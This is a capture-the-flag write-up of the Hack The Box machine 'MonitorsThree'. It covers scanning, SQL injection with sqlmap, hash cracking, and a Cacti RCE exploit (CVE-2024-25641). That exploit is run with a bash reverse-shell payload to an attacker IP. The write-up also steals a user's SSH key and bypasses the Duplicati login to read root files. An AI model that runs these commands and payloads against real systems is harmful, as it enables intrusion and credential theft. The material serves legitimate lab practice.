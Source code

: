 B3rt1ng
[HTB](https://app.hackthebox.com/profile/361363) | [Github](https://github.com/b3rt1ng)

<h1 style="text-align: center;">MonitorsThree Writeup</h1> 

![badge](assets/badge.png)


## Reconnaissance
To begin with, we will perform a classic Nmap port scan to get in touch with the present services running on our target.

```bash
nmap -sC -sV 10.10.11.30 -oN scan.txt -Pn
```

![nmap scan](assets/scan.png)

We'll keep in mind that we have an ssh running on our machine. 
I spent some time to find some known vulnerabilities on port 5555 and 8084 but this isn't giving us a lot of exploitation opportunity.
Port 80 in the other hand is interesting. To access the website we need to add the DNS to our known hosts.

```bash
sudo nano /etc/hosts
```
![dns add](assets/DNS.png)

Once on the website we can see a login page and a forgotten password page. Before trying anything we will try to discover more places !

We will use dirsearch to find more places and we do find some js, fonts, images and admin page though this one is not accessible.

```bash
dirsearch -u http://monitorsthree.htb/
```
![dirsearch](assets/dirsearch.png)
Lastly, we will try to find more places on the webserver by crawling for subdns using this time ffuf.

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://monitorsthree.htb/ -H "Host: FUZZ.monitorsthree.htb" -fs 13560

#fs 13560 argument is meant to pass all the result of size 13560, those appeared to be false positives.
```

![ffuf](assets/ffuf.png)
We find a sub dns called cacti, after some research it seems like this app is meant to monitor systems and get graphical insights about them.
We add the subdns "cacti.monitorsthree.htb" to our known hosts and happily go towards this domain.
Interesting, we have an admin pannel and luckily enough, we also have the version of the software running:
![cacti](assets/cacti.png)

## Exploiting

After a bit of research, it seems like this version is vulnerable and it's vulnerability is known under "CVE-2024-25641". Some POC are available on github allowing us to make Remote Code Executions and therefore get a reverse shell on the machine.
At that point I need to find a user and a password for the RCE to work.
The forgot password page seems to be vulnerable to SQLI. 
![forgot](assets/forgot.png)
I will use burp to capture a request to that page in hope to gather data from the sql database.
here's the request I will use:
![request](assets/request.png)

Now let's play with SQLMap

```bash
sqlmap -r request.txt --dbs --batch
```
![sqlmap](assets/sqlmap.png)

Then let's try to dump this database.

```bash
sqlmap -r request.txt --dbms=mysql --technique=B -D monitorsthree_db --dump-all --random-agent -level 5
```
That way we get four hashed password that we will try to crack with hashcat (1/4 hash are actually crackable), and some credetnials (an admin credential mostly)

```bash
hashcat -m 0 -a 0 "31a181c8372e3afc59dab863430610e8" /usr/share/wordlists/rockyou.txt --show
```
And we get a password.

Let's try that password with the username "admin"

And we are now logged in !
![panel](assets/panel.png)

Now that we have a loggin and password let's try our CVE. I've been using metasploit's implementation of this CVE (under exploit/multi/http/cacti_package_import_rce) but found a more maleable implementation by [@StopThatTalace](https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26).

So let's prepare a listener:
```bash
nc -lnvp 4242
```
And send a reverse shell:
```bash
python3 CVE-2024-25641.py http://cacti.monitorsthree.htb/cacti/ --user admin --pass greencacti2001 -x "bash -c 'bash -i >& /dev/tcp/10.10.16.27/4242 0>&1'"
```
And bingo, we are in !
![reverse](assets/reverse.png)
Since we are only under the user www-data, let's try to move to a normal user. Let's list the homes directories:
![home](assets/home.png)
When we try to ssh to marcus, we need a public key:
![bone](assets/bone.png)
To get that private key, we will swithc from our reverse shell to marcus using the password we gathered and then spawn a web server from marcus's home directory to get his id_rsa file.
now from marcu's account:
```bash
cd /home/marcus/.ssh
python3 -m http.server
```
From our machine:
```bash
wget http://10.10.11.30:8000/id_rsa
```
![wget](assets/wget.png)
![ssh](assets/ssh.png)
We now have the user flag !
## privilege escalation
Now let's try to escalate our privileges to root, we will need to investigate our machine.
Sudo -l isn't giving any hints, let's use linpeas to get some useful information.
![linpeas](assets/linpeas.png)
We already know  80,22 and 53 (tcp/udp DNS server) but now we want to investigate the other ports. Let's try to see if any web-app is running on one of those.
We will make ssh tunneling and try to access it on our browser.
![tunel](assets/tunel.png)
And on our browser we have an app called "duplicati"
![duplicati](assets/duplicati.png)
After some research we find [this article](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) that explain how to bypass this duplicati login page.

To summarize it a little bit, the bypass relies on two main information:
- We already have access to the machine with marcus so we can access the database settings.
- using Burp Suite we can understand how the authentication is working.
  
I will not spend too much time into explaining how I gathered those information as it would be a copy/paste of the article so I will fast forward to the bypass execution.

After converting the database password.
![password](assets/password.png)
Gathered the session nonce through burp
![nonce](assets/nonce.png)
Generated the password.
![pass](assets/pass.png)
And replaces the password field in but by our generated password, we have access to the app !
![app](assets/app.png)
The advantage of using this app is that it runs with the roots privilege, now we can manipulate the apps to access files with root privilege and hopefully get the root flag (/root/root.txt on HTB machines).

After reading the [duplicati doc](https://docs.duplicati.com/en/latest/), we can see that it's meant to save files in order to do backups. So let's try to get that root flag.

Let's create a backup file of our root flag to marcus's home.
Our destination will be /source/home/marcus
![source](assets/marcus_source.png)
And our source will be:
![source](assets/source.png)

Now let's run the backup:
![backup](assets/backup.png)
Once the backup it's done, we will restore it.
![restore](assets/restore.png)
And now let's have a look at our home folder:
![root](assets/root.png)
Wonderful, we have the root flag.